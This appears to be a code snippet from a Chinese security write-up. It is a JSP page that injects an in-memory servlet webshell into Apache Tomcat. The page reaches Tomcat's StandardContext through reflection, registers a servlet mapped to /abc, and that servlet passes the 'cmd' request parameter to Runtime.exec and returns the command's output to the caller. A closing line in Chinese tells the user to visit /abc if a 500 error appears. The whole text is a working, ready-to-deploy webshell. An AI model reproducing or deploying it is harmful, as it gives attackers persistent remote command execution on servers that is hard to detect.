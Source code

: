 ```java
    @Override
    public void init(ServletConfig config) throws ServletException {}
    @Override
    public String getServletInfo() {return null;}
    @Override
    public void destroy() {}    public ServletConfig getServletConfig() {return null;}

    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
      String cmd = servletRequest.getParameter("cmd");
      if (cmd != null) {
        Process process = Runtime.getRuntime().exec(cmd);
        java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                new java.io.InputStreamReader(process.getInputStream()));
        StringBuilder stringBuilder = new StringBuilder();
        String line;
        while ((line = bufferedReader.readLine()) != null) {
          stringBuilder.append(line + '\n');
        }
        servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
        servletResponse.getOutputStream().flush();
        servletResponse.getOutputStream().close();
        return;
      }
    }
  }
%>


<%
  ServletContext servletContext =  request.getSession().getServletContext();
  Field appctx = servletContext.getClass().getDeclaredField("context");
  appctx.setAccessible(true);
  ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
  Field stdctx = applicationContext.getClass().getDeclaredField("context");
  stdctx.setAccessible(true);
  StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
  ServletDemo demo = new ServletDemo();
  org.apache.catalina.Wrapper demoWrapper = standardContext.createWrapper();

//设置Servlet名等
  demoWrapper.setName("xyz");
  demoWrapper.setLoadOnStartup(1);
  demoWrapper.setServlet(demo);
  demoWrapper.setServletClass(demo.getClass().getName());
  standardContext.addChild(demoWrapper);

//设置ServletMap
  standardContext.addServletMapping("/abc", "xyz");
  out.println("inject servlet success!");
%>
```
遇到500 不要慌，访问/abc试一试